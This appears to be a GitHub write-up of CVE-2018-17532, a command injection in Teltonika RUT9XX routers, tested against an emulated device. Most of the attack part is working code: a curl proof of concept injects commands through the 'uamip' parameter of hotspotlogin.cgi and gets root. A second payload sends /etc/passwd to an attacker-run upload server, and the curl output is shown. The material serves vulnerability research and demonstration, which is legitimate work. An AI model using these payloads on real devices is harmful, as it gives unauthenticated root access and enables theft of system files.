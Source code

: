 
Teltonika RUT9XX routers with firmware before 00.04.233 are prone to multiple unauthenticated OS command injection vulnerabilities in autologin.cgi and hotspotlogin.cgi due to insufficient user input sanitization. This allows remote attackers to execute arbitrary commands with root privileges.

We can see more details here : https://www.opencve.io/cve/CVE-2018-17532

Full explanation here : https://github.com/sbaresearch/advisories/tree/public/2018/SBA-ADV-20180319-01_Teltonika_OS_Command_Injection

With the "hotspotlogin.cgi" file he found that there is no proprer sanitzation for user input in uamip parametre that loaded in an os.execute :skull: 

## POC 

An attacker can exploit this vulnerability by manipulating the `uamip` parameter:
```bash
curl -v -o /dev/null "http://$IP/cgi-bin/hotspotlogin.cgi" -d 'send=1&uamip="; id >/tmp/test #'
```

The device executes the commands with root privileges:

```bash
cat /tmp/test
uid=0(root) gid=0(root)
```


Let's use the exploit with our emulated device 

The exploit is blind so we need something to see the ouput without accessing router shell

I'll use a webserver https://pypi.org/project/uploadserver/ 

```bash
┌──(kali㉿kali)-[~]
└─$ python3 -m uploadserver
File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```

Sending the exploit

```bash
curl -v -o /dev/null "http://192.168.1.1/cgi-bin/hotspotlogin.cgi" -d 'send=1&uamip="; curl -X POST http://192.168.1.110:8000/upload -F "files=@/etc/passwd" #'
```

```bash
*   Trying 192.168.1.1:80...
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0* Connected to 192.168.1.1 (192.168.1.1) port 80 (#0)
> POST /cgi-bin/hotspotlogin.cgi HTTP/1.1
> Host: 192.168.1.1
> User-Agent: curl/7.82.0
> Accept: */*
> Content-Length: 87
> Content-Type: application/x-www-form-urlencoded
> 
} [87 bytes data]
100    87    0     0  100    87      0     27  0:00:03  0:00:03 --:--:--    27* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Connection: close
< Transfer-Encoding: chunked
100    87    0     0  100    87      0     23  0:00:03  0:00:03 --:--:--    23< Content-Type: text/html; charset=utf-8
< 
```